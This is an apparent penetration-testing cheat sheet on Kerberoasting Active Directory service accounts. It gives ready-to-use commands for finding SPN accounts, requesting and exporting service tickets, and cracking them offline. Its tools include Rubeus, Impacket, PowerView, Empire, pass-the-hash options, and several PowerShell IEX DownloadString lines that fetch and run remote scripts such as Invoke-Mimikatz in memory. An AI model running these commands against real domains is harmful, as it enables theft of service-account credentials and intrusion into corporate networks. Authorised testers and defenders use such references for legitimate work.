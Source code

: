 # Active Directory - Kerberos Kerberoasting

### Overview

A Kerberoasting attack is an attack on the `Kerberos` authentication protocol
that involves compromising the password of a service account, a domain account
that has a `ServicePrincipalName (SPN)`, through `service tickets` requests to
the `Ticket-Granting Service (TGS)`.

The attack is based on the fact that a part of the `service tickets` is
encrypted using one of the service account secrets (`RC4`, corresponding to
the `NTLM hash` of the service account password, and `AES 128/256 bits` keys).
The encryption type to be used can be specified client-side in order to force
the use of the `RC4` key. Thus, an offline cracking attack on the service
tickets can be conducted to retrieve the plaintext password of the
corresponding service account.   

As any authenticated user on the domain in possession of a valid
`Ticket-Granting Ticket (TGT)` can requests service tickets for all available
services, the service accounts password are exposed to offline cracking attack
that are much faster and can not be time restricted.

The attack chain is as follow:
  - Identification of accounts with a `SPN` (service accounts)
  - Request of a service ticket for those services
  - Extraction of the TGS for offline cracking

###### Service Principal Names (SPN)

The `SPN` is a unique identifier of a service instance. `SPNs` are used in
`Kerberos` authentication to associate a service instance with a service
logon account. `SPN` are used to map a service running on a server to an
account it’s running as so that it can accept Kerberos authentication.

### Automated SPN discover, request and export of TGS

The following tools can be used to automate the SPN discovery and the request
and export of Service Tickets for offline cracking.

`Rubeus` permitting the filtering out AES-enabled accounts.

```
# List statistics about Kerberoastable accounts, such as the number of accounts supporting the different encryption algorithms and the years of last password definition
kerberoast /stats

# All service accounts without AES enabled
Rubeus.exe kerberoast /rc4opsec /outfile:<FILE_PATH>

# All RC4-enabled service accounts (whom may have AES enabled as well) - with RC4 encrypted service tickets
Rubeus.exe kerberoast /tgtdeleg /outfile:<FILE_PATH>

# All service accounts - with the highest supported encryption algorithm
Rubeus.exe kerberoast /outfile:<FILE_PATH>

# Specific service account
Rubeus.exe kerberoast /tgtdeleg /user:<USERNAME> /outfile:<FILE_PATH>
Rubeus.exe kerberoast /tgtdeleg /spn:<SPN> /outfile:<FILE_PATH>

# All service accounts in the specified domain with the provided credentials
# Note that sometimes the credentials specification may induces a bug and Rubeus should be used through a runas /Netonly session
Rubeus.exe kerberoast /rc4opsec /dc:<DC_HOSTNAME | DC_IP> /domain:<DOMAIN_FQDN> /creduser:'<DOMAIN_FQDN>\<USERNAME>' /credpassword:'<PASSWORD>' /outfile:<FILE_PATH>
Rubeus.exe kerberoast /dc:<DC_HOSTNAME | DC_IP> /domain:<DOMAIN_FQDN> /creduser:'<DOMAIN_FQDN>\<USERNAME>' /credpassword:'<PASSWORD>' /outfile:<FILE_PATH>

# (Powershell) Invoke-Kerberoast - Load in memory
IEX (New-Object Net.WebClient).DownloadString(‘https://gist.githubusercontent.com/0xbadjuju/0ebe02983273048c237a8b24633cee3f/raw/c385a21c230ee0e274293aa4e50b5b9ed4197df2/Invoke-Kerberoast.ps1')
Invoke-Kerberoast [[-Identity] <String[]>] [-Domain <String>] [-LDAPFilter <String>] [-SearchBase <String>] [-Server <String>] [-SearchScope <String>] [-ResultPageSize <Int32>] [-ServerTimeLimit <Int32>] [-Tombstone] [-OutputFormat <String>] [-Credential <PSCredential>]
Invoke-Kerberoast
Invoke-Kerberoast -Domain <DOMAIN> -Server <DC>
Invoke-Kerberoast -Format "John" / "Hashcat" # Default to John
Invoke-Kerberoast | % { $_.Hash } | Out-File -Encoding ASCII <FILE>

# (Python) Impacket/examples GetUserSPNs.py
GetUserSPNs.py -dc-ip <DC_HOSTNAME | DC_IP> <DOMAIN>/<USERNAME>
GetUserSPNs.py -dc-ip <DC_HOSTNAME | DC_IP> -outputfile <FILE> <DOMAIN>/<USERNAME>
```

### Manual SPN Discovery

The following tools can be used to retrieve the SPN of the Domain services:

```
# Active Directory module
Get-ADUser -Properties servicePrincipalName -Filter "servicePrincipalName -like '*'" | Select-Object SamAccountName,servicePrincipalName
Get-ADUser -Server <DC_HOSTNAME | DC_IP> -Credential <PSCredential> -Properties servicePrincipalName -Filter "servicePrincipalName -like '*'" | Select-Object SamAccountName,servicePrincipalName

# PowerView
Get-DomainUser -SPN | Select-Object SamAccountName,servicePrincipalName
Get-DomainUser -SPN | ?{$_.memberof -match 'Domain Admins'}

# (Python) Impacket/examples GetUserSPNs.py
# Request service tickets for all service accounts
GetUserSPNs.py -dc-ip <DC_HOSTNAME | DC_IP> <DOMAIN>/<USERNAME>
# Request service tickets for the specific account (using the service account SamAccountName)
GetUserSPNs.py -dc-ip <DC_HOSTNAME | DC_IP> <DOMAIN>/<USERNAME> -request-user '<USERNAME>'
# Pass-the-Hash
GetUserSPNs.py -dc-ip <DC_HOSTNAME | DC_IP> -hashes <LMHASH:NTHASH> <DOMAIN>/<USERNAME>

# (Powershell) GetUserSPNs - retrieve only SPN associated to user accounts (CN=Users) - inject and run automatically
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1')

# (Powershell) Get-SPN - allows for regex searching in the account, service or group name (specified by the Type and Search parameters)
# IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/Get-SPN/Get-SPN.psm1")
Get-SPN [[-Credential] <PSCredential>] [[-DomainController] <String>] [[-Limit] <Int32>] [[-SearchScope] <String>] [[-SearchDN] <String>] [-Type] <String> [-Search] <String> [[-List] <String>] [<CommonParameters>]
Get-SPN -Type user -Search * -List yes
Get-SPN -Type service -Search "MSSQL*"
Get-SPN -DomainController <DC_HOSTNAME | DC_IP> -Credential <DOMAIN>\<USERNAME [...]

# Empire
usemodule situational_awareness/network/get_spn
```

Focus on the accounts with the higher probability of using a weak password,
usually user accounts with a password that has not been changed in a long time
/ not changed at all.

### Manual request and export of Service Tickets

The following tools can be used to request and export specific user Service
Tickets:

```
# (Python) Impacket/examples GetUserSPNs.py
GetUserSPNs.py -dc-ip <DC_HOSTNAME | DC_IP> -request-user '<USER>' <DOMAIN>/<USERNAME> # Requests TGS for the SPN associated to the USER specified (just the username, no domain needed)
GetUserSPNs.py -dc-ip <DC_HOSTNAME | DC_IP> -request-user '<USER>' -outputfile <FILE> <DOMAIN>/<USERNAME>

# (Python) skelsec/kerberoast
kerberoast spnroast -r <DOMAIN> -u '<USER>' <DOMAIN>/<USERNAME>:<PASSWORD>@<DCIP> # Requests TGS for the SPN associated to the USER specified (just the username, no domain needed)
kerberoast spnroast -r <DOMAIN> -u '<USER>' -n <DOMAIN>/<USERNAME>:<NTLMHASH>@<DCIP> # PtH
kerberoast spnroast -r <DOMAIN> -u '<USER>' -n <DOMAIN>/<USERNAME>:<AESKEY>@<DCIP> # Pass the Key
kerberoast spnroast -r <DOMAIN> -t <USERFILE>  <DOMAIN>/<USERNAME>:<PASSWORD>@<DCIP> # File with a list of usernames to roast, one user per line
kerberoast spnroast -r <DOMAIN> -u '<USER>' -o <FILE> <DOMAIN>/<USERNAME>:<PASSWORD>@<DCIP>

# (Powershell)
# Request TGS KerberosRequestorSecurityToken, export them using Mimikatz and convert to hash using John's kirbi2john.py

# Requests TGS for the specified SPN
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<SPN>"

# Requests TGS for all SPN associated to Users accounts
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1") | ForEach-Object {try{New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.ServicePrincipalName}catch{}}

# Export tickets using mimikatz
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1")
Invoke-Mimikatz -Command 'standard::base64 "kerberos::list /export" exit'

# Empire
usemodule credentials/get_spn_tickets
usemodule credentials/mimikatz/extract_tickets
```

### Offline cracking of Service Tickets

Both `John the Ripper` (`magnumripper` fork) and `hashcat` can be used to crack
the service tickets.

The hash needs to respect the following format to be recognized by `John` /
`hashcat`:

```
# ENCRYPTION_TYPE 23 = RC4
# ENCRYPTION_TYPE 17 = AES128
# ENCRYPTION_TYPE 18 = AES256

$krb5tgs$<ENCRYPTION_TYPE>$*user$realm$test/spn*$63386[...]
```

Depending on the version used, the hash from the `PowerSploit`
`Invoke-Kerberos` cmdlet may need to be manually updated. The
[`Convert-Invoke-Kerberoast`](https://github.com/blacklanternsecurity/Convert-Invoke-Kerberoast)
Python script may be used to automate the process:

```
python Convert-Invoke-Kerberoast.py -f <TICKETS_FILE> -w <OUTPUT_FILE>
```

The following commands to crack the hash can be used:

```
# Its recommended to use Hashcat on a Windows OS for better performance due to driver compatibility
hashcat64.exe -m 13100 -a 0 [-r <RULE_FILE>] <HASHFILE> <WORDLIST>

john --wordlist=<WORDLIST> <HASHFILE>
```
